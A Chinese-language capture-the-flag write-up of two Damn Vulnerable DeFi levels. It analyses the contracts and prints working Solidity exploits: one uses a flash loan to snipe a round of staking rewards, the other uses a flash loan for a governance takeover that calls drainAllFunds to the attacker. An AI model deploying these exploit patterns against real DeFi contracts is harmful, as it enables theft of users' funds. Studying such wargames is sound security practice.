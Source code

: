 # Damn Defi靶场刷题记录(5-6)

    author: Thomas_Xu

## 5 the-rewarder
FlashPool从一开始就获得一百万个代币，提到的4个人中的每一个人都获得100个DVT，这些DVT立即由他们存入奖励池。在此初始设置之后，时间提前5天，并支付一轮奖励：每人25个奖励代币。
这道题有四个合约，是第一道多合约的题目。不过不用害怕，我们一个一个来分析。
* **RewardToken**
这是一个简单的ERC20的Token，没有什么问题。唯一的区别就是这个奖励币可以被无限铸造。
* **AccountingToken**
这是一个有访问控制管理的具有交易快照功能的Token，应该是针对每一轮的奖励而写的Token。不过看上去也没有问题。
* **FlashLoanerPool**
这是比较常见的闪电贷池，让我们来具体看看它是怎么实现的。
```
function flashLoan(uint256 amount) external nonReentrant {
        uint256 balanceBefore = liquidityToken.balanceOf(address(this));
        require(amount <= balanceBefore, "Not enough token balance");

        require(msg.sender.isContract(), "Borrower must be a deployed contract");
        
        liquidityToken.transfer(msg.sender, amount);

        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveFlashLoan(uint256)",
                amount
            )
        );

        require(liquidityToken.balanceOf(address(this)) >= balanceBefore, "Flash loan not paid back");
    }
```
明显的，出现了外部调用，这应该立马引起我们的警觉，这意味着我们可能利用`receiveFlashLoan()`函数干一些坏事。
* **TheRewarderPool**
这应该是这个系统最核心的合约了，里面有存款，奖励，取款的一系列流程。
> 存款会触发奖励分配功能。 首先检查是否经过了足够的时间来开始新一轮，如果是，它将创建快照。无论哪种方式，它都会根据他与所有其他用户的存款金额来计算呼叫者的奖励。然后，它检查调用方是否已经检索到当前回合的奖励，如果没有，则铸造计算出的奖励代币数量。

在了解了工作原理之后，我注意到了这个问题：如果你的时间安排得当，并用你的存款开始新一轮，**你可以立即领取该轮的奖励并退出**。从另一份合同中完成所有这些操作，这意味着在一次交易中，您可以使用闪回符并索取大部分奖励。

* **Exploit**
闪电贷函数有一个外部调用可以被我们利用，而奖励池里我们只需要存款进去，就可以立即获取奖励并退出。
> 那么我们就可以从闪电贷池里jiu借钱存到奖励池里，领取奖励后取款，最后把钱还给借贷池就大功告成了。

来看代码
```

pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";
import "../DamnValuableToken.sol";

contract RewarderExploit{

    FlashLoanerPool loanpool;
    TheRewarderPool rewardpool;
    RewardToken public immutable rewardToken;
    DamnValuableToken public immutable liquidityToken;
    address attacker;

    constructor(address _loanpool, address _rewardpool, address _tokenAddress, address _rewardToken){
        loanpool = FlashLoanerPool(_loanpool);
        rewardpool = TheRewarderPool(_rewardpool);
        liquidityToken = DamnValuableToken(_tokenAddress);
        rewardToken = RewardToken(_rewardToken);
        attacker = msg.sender;
    }

    function attack(uint256 _amount) public {
        loanpool.flashLoan(_amount);
    }

    function receiveFlashLoan(uint256 _amount) payable external{
        liquidityToken.approve(address(rewardpool), _amount);
        rewardpool.deposit(_amount);
        uint256 rewards = rewardpool.distributeRewards();
        rewardToken.transfer(attacker, rewards);
        rewardpool.withdraw(_amount);
        liquidityToken.transfer(address(loanpool), _amount);
    }
}
```

* 总结
这应该是所有希望激励用户存款的系统都会面临的漏洞（暂且叫闪借攻击吧），即使您为了防止来自闪借攻击，强制将回合开始（快照）放在与流动性存款不同的交易，拥有大量代币的用户仍然可以在一轮结束时存入它们，并在新一轮开始后立即提款。你的协议可能希望激励长期质押，而不是短期套利交易。
因此，最好是摆脱回合，根据存款的每一秒来计算奖励，就像今天许多现代DeFi项目所做的那样。

## 6 Selfie
这个题和以往的题唯一不同的地方，就是多了一个治理机制。但同时，这个治理机制如果不安全，反而会适得其反。
* **SelfiePool**
这个池里有一个闪电贷的函数，同时有一个特殊的可以转出所有资金的函数`drainAllFunds()`。值得注意的是这个函数有一个修饰符`onlyGovernance`也就是只能被治理合约所调用，看起来非常安全，但其实我们一旦获得治理合约的控制权，我们就可以榨干`SelfiePool`.
* **SimpleGovernance**
这就是之前提到的治理合约，显而易见的是我们需要在这里面找到漏洞干一些坏事。让我们来看看吧。
    这个合约比较复杂，我们简单说一说
    * queueAction
        > 通过这个函数我们可以把data放进队列，而为了成功排队，我们必须拥有总供应量的一半以上，而由于我们现在有闪借池，这点很容易绕过。
        我们无法立即执行操作，因为有2天的延迟，我们必须先等待。但是，我们在这里所要做的就是将时间快进2天，因为没有什么可以确保我们在延迟期间仍然持有这些治理令牌
    * executeAction
    这个函数使用来执行的，按照队列id一个交易一个交易的执行，但是这个函数明显是有借入风险的，我们只需要把作为参数传入的address改为我们想借入的合约地址，然后在排队的时候修改`data`的内容，很容易做到这一点。这样，我们就可以冒充治理合约来调用`drainAllFunds()`了。

* **Exploit**
根据以上分析写出Exploit如下：
```
pragma solidity ^0.8.0;

import "./SimpleGovernance.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";

contract SelfieExploit {

    SimpleGovernance public goverance;
    SelfiePool public pool;
    address attcker;
    uint256 actionId;
    constructor(address _pool, address _goverance){
        pool = SelfiePool(_pool);
        goverance = SimpleGovernance(_goverance);
        attcker = msg.sender;
    }

    function exploit (uint256 _amount) public {
        pool.flashLoan(_amount);
    }

    function receiveTokens (address _token, uint256 amount) external {
        DamnValuableTokenSnapshot token = DamnValuableTokenSnapshot(_token);
        token.snapshot();
        actionId = goverance.queueAction(address(pool),
            abi.encodeWithSignature(
                "drainAllFunds(address)",
                attcker
            ),
            0); 
        token.transfer(address(pool), amount);
    }

    function drainToAttacker() external {
        goverance.executeAction(actionId);
    }

    receive () external payable {}
}

```

总结：治理合约越复杂，越可能出现漏洞，一定谨慎。